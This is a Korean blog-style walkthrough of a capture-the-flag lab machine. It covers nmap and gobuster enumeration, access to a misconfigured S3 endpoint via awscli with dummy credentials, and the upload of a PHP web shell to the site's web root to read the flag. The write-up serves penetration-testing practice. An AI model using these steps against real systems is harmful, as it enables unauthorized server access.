






우선 port scan 결과를 먼저 확인해보자. ssh와 http port가 기본 포트에 맞추어 열려있다.
``` bash
┌──(root㉿fb940ca6010c)-[/rfi]
└─# nmap -sC -sV 10.129.227.248
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-14 14:17 UTC
Nmap scan report for 10.129.227.248
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.33 seconds
```

이전 문제와는 조금은 다르지만 유사한 점이 있다. IP로 해당 사이트가 접근 되긴 하지만, 다른 페이지로의 이동은 되지 않는다. 할당 된 ip로 접근 시 아래와 같이 웹에 접근 된다.


다만, 사이트의 기능을 눌러보면 아래와 같이 접근되지 않는 부분이 있다. 아마 `/etc/hosts`에 등록을 해주어야 하는 것 같다.
``` bash
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts
```


그렇다면 사이트 url을 알아야 등록이 가능한데, 나의 경우 페이지 소스를 보며 찾았다. 굳이 페이지 소스가 아니라 CONTANT에 기재된 이메일 주소를 통해 유추해볼 수도 있다. 이메일 주소에 포함된 'thetoppers.htb'가 site url로 추정된다.
``` html
      <div class="w3-col m6 w3-large w3-margin-bottom">
        <i class="fa fa-map-marker" style="width:30px"></i> Chicago, US<br>
        <i class="fa fa-phone" style="width:30px"></i> Phone: +01 343 123 6102<br>
        <i class="fa fa-envelope" style="width:30px"> </i> Email: mail@thetoppers.htb<br>
      </div>
      <div class="w3-col m6">
```

`/etc/hosts`를 수정해도 위의 페이지는 들어가지지 않는다. 그렇다면 접근 가능한 다른 url이 있는지 파악하기 위해 gobuster를 사욜해보고자 한다. 결과는 아래와 같고 사용한 리스트 파일은 [링크](https://raw.githubusercontent.com/aels/subdirectories-discover/main/dsstorewordlist.txt)에서 다운 가능하다.
``` bash
┌──(root㉿fb940ca6010c)-[/]
└─# gobuster dir -u http://thetoppers.htb/ -w ./dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://thetoppers.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ./dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 317] [--> http://thetoppers.htb/images/]
/index.php            (Status: 200) [Size: 11952]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
===============================================================
```

수집된 경로를 보아 /images에 접근 가능한 듯하다. 접근 해보니 아래와 같이 Directory Listing 취약점이 존재하는 것을 알 수 있다. 


다만 저 경로 외에 더 이상의 접근은 되지 않아 별 다른 정보를 획득하지는 못했다. 그렇다면 우선 남은 추가 정보는 Apache 버전 정보이다.
```
Apache/2.4.29 (Ubuntu) Server at thetoppers.htb Port 80
```

gobuster dns를 사용하여 찾아도 별다른 정보를 얻을 수 없다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# gobuster dns -d thetoppers.htb -w /usr/share/wordlists/dnsmap.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     thetoppers.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/dnsmap.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 17576 / 17577 (99.99%)
===============================================================
Finished
===============================================================
```

지금 이 부분은 다른 사람의 writeup을 참고한 부분이다. 원래 아래와 같이 vhost로 스캔하면 s3.thetoppers.htb가 수집되어야 하는데, 나의 경우 수집이 되지 않는다. 무언가 불안정한가...
``` bash
┌──(root㉿kali)-[/home/user]
└─# gobuster vhost -u http://thetoppers.htb -w subdomains-top1million-5000.txt
```
s3.thetoppers.htb에 대한 정보를 획득했다는 가정하에, 정상접근을 위해선 이전과 마찬가지로 /etc/hosts에 추가해주어야 한다.
``` bash
10.129.188.193  thetoppers.htb s3.thetoppers.htb
```

s3의 경우 AWS 버킷과 관련된 것으로 접근을 위해 awscli를 설치하자. awscli를 설치 후 aws 명령어로 해당 서버에 접속을 시도해보자. 아래와 같이 설정이 되지 않아 오류가 발생한다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 ls s3://s3.thetoppers.htb

Unable to locate credentials. You can configure credentials by running "aws configure".
```

다행히 별도의 값이 있어야 하지는 않고 아래와 같이 임의의 값을 넣어 주면 된다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws configure
AWS Access Key ID [None]: test
AWS Secret Access Key [None]: test
Default region name [None]: test
Default output format [None]: test
```

이후 다시 해보니 아래와 같이 연결이 불가하다고 뜨며 주소가 나타난다. 내가 원했던 's3.thetoppers.htb'가 아니라 조금 많이 긴 주소인 것을 보니 무언가 잘못된 듯 싶다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 ls s3://s3.thetoppers.htb

Could not connect to the endpoint URL: "https://s3.thetoppers.amazonaws.com/s3.thetoppers.htb?list-type=2&prefix=&delimiter=%2F&encoding-type=url"
```

명령어 인자를 아래와 같이 변경 후 접근 시 성공적으로 접근 된다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls

2024-02-15 03:33:23 thetoppers.htb
```

우선 어떤 파일들이 있는지 확인해보자. index.php와 jpg 파일 외에 별 다른 파일은 보이지 않는다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls
2024-02-15 05:38:01 thetoppers.htb

┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls thetoppers.htb
                           PRE images/
2024-02-15 05:38:01          0 .htaccess
2024-02-15 05:38:02      11952 index.php

┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls thetoppers.htb/images/
2024-02-15 05:38:01      90172 band.jpg
2024-02-15 05:38:02     282848 band2.jpg
2024-02-15 05:38:02    2208869 band3.jpg
2024-02-15 05:38:01      77206 final.jpg
2024-02-15 05:38:01      69170 mem1.jpg
2024-02-15 05:38:01      39270 mem2.jpg
2024-02-15 05:38:02      64347 mem3.jpg
```

그렇다면 awscli로 웹쉘을 업로드하여 동작시켜보고자 한다. 웹쉘은 아래의 경로에서 선택하여 cmd.php라는 이름으로 저장하였다.
> https://github.com/cspshivam/webshells

아래는 기존에 존재하던 index.php를 다운로드하고, 내가 작성한 cmd.php를 갖은 경로에 업로드 하는 과정이다. `aws s3 --endpoint=http://s3.thetoppers.htb ls`로 수집한 경로 `thetoppers.htb`에 대해 아래와 같이 접근해야한다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb cp s3://thetoppers.htb/index.php ./index.php

download: s3://thetoppers.htb/index.php to ./index.php

┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb cp ./cmd.php s3://thetoppers.htb/cmd.php
upload: ./cmd.php to s3://thetoppers.htb/cmd.php
```
이제 업로드한 경로를 통해 접근해보면 아래와 같이 성공적으로 웹쉘 업로드가 됐다.


문제를 풀 때 대체적으로 flag가 존재하는 파일의 이름이 flag.txt이기에 아래와 같이 find 명령어로 찾아보았고, 바로 결과가 나왔다.


이제 flag 파일을 출력하면 정답을 확인할 수 있다.


awscli를 처음 사용해보기에, 유익했다. 회사의 자산에 대해서도 위험 여부 판단을 할 때 사용하면 좋을 것 같다.
